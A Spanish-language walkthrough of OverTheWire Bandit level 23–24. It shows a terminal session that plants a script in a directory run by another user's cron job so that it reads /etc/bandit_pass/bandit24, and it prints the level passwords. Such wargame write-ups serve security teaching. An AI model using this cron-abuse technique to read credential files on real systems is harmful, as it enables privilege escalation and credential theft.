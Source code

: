 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de Acceso al Nivel
- **Puerto:** 2220
##### Se usará el usuario "bandit23":
- **Usuario:** bandit23
- **Contraseña:** 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
##### Después de conseguir la contraseña:
- **Usuario:** bandit24
- **Contraseña descubierta:** gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
## Solución
```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mktemp -d
/tmp/tmp.1LYfXbqz4K
bandit23@bandit:~$ chmod 777 /tmp/tmp.1LYfXbqz4K
bandit23@bandit:~$ cd /tmp/tmp.1LYfXbqz4K
bandit23@bandit:/tmp/tmp.1LYfXbqz4K$ echo "cat /etc/bandit_pass/bandit24 > /tmp/tmp.1LYfXbqz4K/password" > script.sh
bandit23@bandit:/tmp/tmp.1LYfXbqz4K$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/tmp.1LYfXbqz4K/password
bandit23@bandit:/tmp/tmp.1LYfXbqz4K$ nano script.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/tmp.1LYfXbqz4K$ touch password
bandit23@bandit:/tmp/tmp.1LYfXbqz4K$ chmod 777 password
bandit23@bandit:/tmp/tmp.1LYfXbqz4K$ ls -la
total 10816
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  4 16:34 .
drwxrwx-wt 4026 root     root     11063296 Sep  4 16:35 ..
-rwxrwxrwx    1 bandit23 bandit23        0 Sep  4 16:34 password
-rw-rw-r--    1 bandit23 bandit23       61 Sep  4 16:33 script.sh
bandit23@bandit:/tmp/tmp.1LYfXbqz4K$ chmod 777 script.sh
bandit23@bandit:/tmp/tmp.1LYfXbqz4K$ ls -la
total 10816
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  4 16:34 .
drwxrwx-wt 4027 root     root     11063296 Sep  4 16:35 ..
-rwxrwxrwx    1 bandit23 bandit23        0 Sep  4 16:34 password
-rwxrwxrwx    1 bandit23 bandit23       61 Sep  4 16:33 script.sh
bandit23@bandit:/tmp/tmp.1LYfXbqz4K$ pwd
/tmp/tmp.1LYfXbqz4K
bandit23@bandit:/tmp/tmp.1LYfXbqz4K$ ls -la
total 10816
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  4 16:34 .
drwxrwx-wt 4029 root     root     11063296 Sep  4 16:37 ..
-rwxrwxrwx    1 bandit23 bandit23        0 Sep  4 16:34 password
-rwxrwxrwx    1 bandit23 bandit23       61 Sep  4 16:33 script.sh
bandit23@bandit:/tmp/tmp.1LYfXbqz4K$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/tmp.1LYfXbqz4K/password
bandit23@bandit:/tmp/tmp.1LYfXbqz4K$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/tmp.1LYfXbqz4K$ date
Wed Sep  4 04:38:09 PM UTC 2024
bandit23@bandit:/tmp/tmp.1LYfXbqz4K$ date
Wed Sep  4 04:38:24 PM UTC 2024
bandit23@bandit:/tmp/tmp.1LYfXbqz4K$ date
Wed Sep  4 04:38:37 PM UTC 2024
bandit23@bandit:/tmp/tmp.1LYfXbqz4K$ cat password
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

- ##### Cierre de sesión del usuario "bandit23".
```
bandit23@bandit:/tmp/tmp.1LYfXbqz4K$ exit
logout
Connection to bandit.labs.overthewire.org closed.
```
## Notas Adicionales
- **mktemp -d** - Crea una carpeta temporal dentro de /tmp.
## Referencias
- [OverTheWire](https://overthewire.org/wargames/bandit/bandit1.html)